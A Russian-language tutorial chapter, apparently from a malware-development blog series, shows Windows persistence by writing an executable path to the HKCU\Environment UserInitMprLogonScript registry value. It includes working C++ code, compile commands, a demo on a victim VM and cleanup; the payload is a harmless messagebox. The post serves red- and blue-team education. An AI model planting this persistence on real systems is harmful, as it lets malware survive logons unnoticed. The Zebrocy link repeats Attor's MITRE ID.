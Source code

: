 \newpage
\subsection{86. разработка вредоносного ПО: закрепление (persistence) - часть 20. UserInitMprLogonScript (скрипт входа в систему). Простой пример на C++.}

﷽

![pers](./images/82/2022-12-11_18-11.png){width="80%"}    

Этот пост основан на моем собственном исследовании одной из интересных техник закрепления вредоносного ПО: через значение `UserInitMprLogonScript`.     

### UserInitMprLogonScript

Windows позволяет выполнять скрипты входа в систему при каждом входе пользователя или группы пользователей. Добавление пути к скрипту в реестр `HKCU\Environment\UserInitMprLogonScript` позволяет это сделать. Таким образом, для установления закрепления злоумышленники могут использовать сценарии входа в систему Windows, которые выполняются автоматически при инициализации сеанса.      

### практический пример

Рассмотрим практический пример. Прежде всего, как обычно, создаем "вредоносное" приложение. Для простоты, как обычно, это приложение `meow-meow` messagebox (`hack.cpp`):  

```cpp
/*
hack.cpp
вредоносное приложение для закрепления в Windows
aвтор: @cocomelonc
https://cocomelonc.github.io/malware/2022/12/09/malware-pers-20.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR 
lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

А затем просто создаем скрипт для закрепления (`pers.cpp`):      


```cpp
/*
pers.cpp
windows persistence via
setting UserInitMprLogonScript value
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/12/09/malware-pers-20.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // env
  const char* env = "Environment";

  // evil app
  const char* exe = "Z:\\2022-12-09-malware-pers-20\\hack.exe";

  // environment
  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)env, 0 , KEY_WRITE, 
  &hkey);
  if (res == ERROR_SUCCESS) {
    // update registry key value
    // reg add "HKEY_CURRENT_USER\Environment" /v "UserInitMprLogonScript" /t 
    // REG_SZ /d "...\hack.exe" /f
    RegSetValueEx(hkey, (LPCSTR)"UserInitMprLogonScript", 0, REG_SZ, 
    (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Как видите, логика проста. Просто установим значение ключа `UserInitMprLogonScript` в `HKCU\Environment` на полный путь к нашей "вредоносной программе" - `Z:\\2022-12-09-malware-pers-20\hack.exe`.

### demo

Давайте посмотрим, как все работает на практике. Прежде всего, проверяем реестр:      

```powershell
reg query "HKCU\Environment" /s
```

![pers](./images/82/2022-12-11_17-57.png){width="80%"}    


Затем компилируем наше "вредоносное" ПО на машине атакующего (`kali`):    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/82/2022-12-11_17-54.png){width="80%"}    

И для проверки корректности пробуем запустить `hack.exe` на машине жертвы (`Windows 10 x64` в моем случае):    

```powershell
.\hack.exe
```

![pers](./images/82/2022-12-11_18-00.png){width="80%"}    

Как можно видеть, наше "вредоносное" ПО работает идеально.    

На следующем шаге компилируем скрипт закрепления на машине атакующего:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/82/2022-12-11_17-55.png){width="80%"}    

Запускаем его на машине жертвы:    

```powershell
.\pers.exe
```

Затем снова проверяем значения ключей реестра:        

```powershell
reg query "HKCU\Environment" /s
```

![pers](./images/82/2022-12-11_18-06.png){width="80%"}    

Как видно, ключ (`UserInitMprLogonScript`) установлен.    

Теперь выходим из системы и входим снова:     

![pers](./images/82/2022-12-11_18-07.png){width="80%"}    

![pers](./images/82/2022-12-11_18-07_1.png){width="80%"}    

И через несколько миллисекунд появляется наш `meow-meow` messagebox:     

![pers](./images/82/2022-12-11_18-08.png){width="80%"}    

Затем, если открыть Process Hacker и проверить свойства `hack.exe`:     

![pers](./images/82/2022-12-11_18-09.png){width="80%"}    

![pers](./images/82/2022-12-11_18-10.png){width="80%"}    

мы видим, что родительский процесс - это "несуществующий" (non-existent) процесс.    

Если вы хотя бы немного изучали внутреннюю структуру Windows, то знаете, что существуют процессы, у которых родительский процесс отображается как "несуществующий". Например, Windows Explorer - `explorer.exe`. Родительским процессом является `userinit.exe` или `winlogon.exe`, но может быть и другой `.exe`, использующий `explorer.exe`. Родительский процесс отображается как `<Non-existent Process>`, так как `userinit.exe` завершает свою работу. Другой пример - Windows Logon - `winlogon.exe`, у которого родительский процесс "не существует", так как `smss.exe` завершает выполнение.    

Если проверить свойства `hack.exe` через [Sysinternals Process Explorer](https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer), можно увидеть значение "Autostart Location":    

![pers](./images/82/2022-12-11_20-05.png){width="80%"}    

Все сработало идеально! =^..^=    

После завершения эксперимента удаляем ключ:    

```powershell
Remove-ItemProperty -Path "HKCU:\Environment" -Name "UserInitMprLogonScript"
```

![pers](./images/82/2022-12-19_18-00.png){width="80%"}    

Этот метод закрепления использовался группой [APT28](https://attack.mitre.org/groups/G0007), а также вредоносными программами [Attor](https://attack.mitre.org/software/S0438) и [Zebrocy](https://attack.mitre.org/software/S0438).    

Надеюсь, этот пост повысит осведомленность синих команд об этой интересной технике и добавит оружие в арсенал красных команд.

[Sysinternals Process Explorer](https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer)        
[Malware persistence: part 1](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)       
[APT28](https://attack.mitre.org/groups/G0007)      
[Attor](https://attack.mitre.org/software/S0438)        
[Zebrocy (Trojan)](https://attack.mitre.org/software/S0438)       
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-12-09-malware-pers-20)     
